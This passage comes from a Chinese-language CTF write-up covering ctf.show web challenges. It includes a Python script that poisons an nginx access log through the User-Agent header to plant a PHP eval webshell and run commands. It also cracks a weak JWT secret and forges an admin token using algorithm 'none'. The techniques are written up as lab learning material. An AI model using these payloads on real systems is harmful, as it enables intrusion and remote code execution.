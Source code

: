 然后访问马,读checke.php即可得到flag

![](https://i.loli.net/2021/10/21/c9dZWa62Unhkr7L.png)

非预期：日志包含写shell

feng师傅的做法

```python
import requests
import base64
url="http://fb707431-ebb7-41c8-9ce7-57da16163fec.chall.ctf.show/"
url2="http://fb707431-ebb7-41c8-9ce7-57da16163fec.chall.ctf.show/debug/?file=/var/log/nginx/access.log"
cmd=b"<?php eval($_POST[1]);?>"
cmd=base64.b64encode(cmd).decode()
headers={
	'User-Agent':'''<?php system('echo {0}|base64 -d  > /var/www/html/b.php');?>'''.format(cmd)
}
print(headers)
requests.get(url=url,headers=headers)
requests.get(url2)
print(requests.post(url+'b.php',data={'1':'system("cat alsckdfy/check.php");'}).text)


```



## 389 jwt session伪造

访问/debug，提示权限不足，看session，明显的jwt格式

![](https://i.loli.net/2021/10/21/fkE2QKzwLr36qmS.png)

![](https://i.loli.net/2021/10/21/q2L3BpAc7skE8uV.png)

c-jwt-cracker爆破得123456

```jwt
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTYzNDc5OTkxNywiZXhwIjoxNjM0ODA3MTE3LCJuYmYiOjE2MzQ3OTk5MTcsInN1YiI6ImFkbWluIiwianRpIjoiMThhNDYzZDJjYTEyNmU3MGZhZmNmMjdhODc0ZjU3ZjAifQ.ZiQ4RvolefXr7HE2jbFhtFVl0VSSX8UhE4xjZ7_f83U
```

![](https://i.loli.net/2021/10/21/sFfcaxGlBigzAj1.png)

或者把加密算法改成none

```python
import jwt
token = jwt.encode(
{
  "iss": "admin",
  "iat": 1634799917,
  "exp": 1634807117,
  "nbf": 1634799917,
  "sub": "admin",
  "jti": "18a463d2ca126e70fafcf27a874f57f0"
},
algorithm="none",key=""
)

print(token.encode("utf-8").decode("utf-8"))

#eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTYzNDc5OTkxNywiZXhwIjoxNjM0ODA3MTE3LCJuYmYiOjE2MzQ3OTk5MTcsInN1YiI6ImFkbWluIiwianRpIjoiMThhNDYzZDJjYTEyNmU3MGZhZmNmMjdhODc0ZjU3ZjAifQ.
```